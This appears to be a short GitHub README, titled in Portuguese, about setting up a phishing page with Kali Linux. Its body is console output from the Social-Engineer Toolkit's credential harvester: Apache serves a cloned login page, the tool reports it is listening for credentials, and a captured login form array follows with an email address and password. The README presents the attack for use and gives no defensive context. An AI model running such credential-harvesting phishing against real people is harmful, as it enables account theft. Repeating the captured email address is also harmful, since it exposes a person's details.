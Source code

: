 # Criando-um-Phishing-com-Kali-Linux
Criando um Phishing com Kali Linux
[*] You may need to copy /var/www/* into /var/www/html depending on where your directory structure is.
Press {return} if you understand what we're saying here.
[*] Apache is set to ON - everything will be placed in your web root directory of apache.
[*] Files will be written out to the root directory of apache.                                                                                              
[*] ALL files are within your Apache directory since you specified it to ON.                                                                                
Apache webserver is set to ON. Copying over PHP file to the website.                                                                                        
Please note that all output from the harvester will be found under apache_dir/harvester_date.txt                                                            
Feel free to customize post.php in the /var/www/html directory                                                                                              
[*] All files have been copied to /var/www/html
[*] SET is now listening for incoming credentials. You can control-c out of this and completely exit SET at anytime and still keep the attack going.
[*] All files are located under the Apache web root directory: /var/www/html
[*] All fields captures will be displayed below.
[Credential Harvester is now listening below...]


Array

(

    [jazoest] => 2902

    [lsd] => AVqXn3D_C4k

    [display] => 

    [isprivate] => 

    [return_session] => 

    [skip_api_login] => 

    [signed_next] => 

    [trynum] => 1

    [timezone] => 

    [lgndim] => 

    [lgnrnd] => 214237_jSJV

    [lgnjs] => n

    [email] => pereirafranklin680@gmail.com

    [pass] => 00000

    [login] => 1

    [prefill_contact_point] => 

    [prefill_source] => 

    [prefill_type] => 

    [first_prefill_source] => 

    [first_prefill_type] => 

    [had_cp_prefilled] => false

    [had_password_prefilled] => false

    [ab_test_data] => 

